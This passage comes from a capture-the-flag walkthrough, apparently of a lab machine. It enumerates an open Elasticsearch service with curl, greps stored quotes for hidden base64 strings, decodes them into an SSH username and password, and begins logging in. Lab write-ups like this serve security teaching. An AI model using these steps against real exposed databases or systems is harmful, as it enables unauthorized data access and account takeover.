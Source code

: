   ```bash
  ```bash
  ❯ curl "http://10.10.10.115:9200/bank/_search?pretty=true" -s | jq
    {
    "took": 5,
    "timed_out": false,
    "_shards": {
        "total": 5,
        "successful": 5,
        "skipped": 0,
        "failed": 0
    },
    "hits": {
        "total": 1000,
        "max_score": 1,
        "hits": [
        {
            "_index": "bank",
            "_type": "account",
            "_id": "25",
            "_score": 1,
            "_source": {
            "account_number": 25,
            "balance": 40540,
            "firstname": "Virginia",
            "lastname": "Ayala",
            "age": 39,
            "gender": "F",
            "address": "171 Putnam Avenue",
            "employer": "Filodyne",
            "email": "virginiaayala@filodyne.com",
            "city": "Nicholson",
            "state": "PA"
            }
        },
        # More hits...
        ]
    }
    }
    ```
As we can see, there are 253 quotes, but we can only access some of them. From the http enumeration on port 80, we can try to look for `needle` and `clave`:
```bash
❯ curl "http://10.10.10.115:9200/quotes/_search?pretty=true&size=253" -s | jq | grep "needle"
          "quote": "There's a needle in this haystack, you have to search for it"
❯ curl "http://10.10.10.115:9200/quotes/_search?pretty=true&size=253" -s | jq | grep "clave"
          "quote": "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
          "quote": "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
```
We found two keys, one endoded in base64 and the ohter one seems plain text. The first key, decoded, looks like:
```bash
❯ echo "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 --decode
pass: spanish.is.key
❯ echo "dXNlcjogc2VjdXJpdHkg" | base64 --decode
user: security
```
From this output we discovered the credential `security:spanish.is.key`, let's try it on ssh:
```bash
❯ ssh security@10.10.10.115
The authenticity of host '10.10.10.115 (10.10.10.115)' can\'t be established.
ED25519 key fingerprint is SHA256:J8TOL2f2yaJILidImnrtW2e2lcroWsFbo0ltI9Nxzfw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.115' (ED25519) to the list of known hosts.
```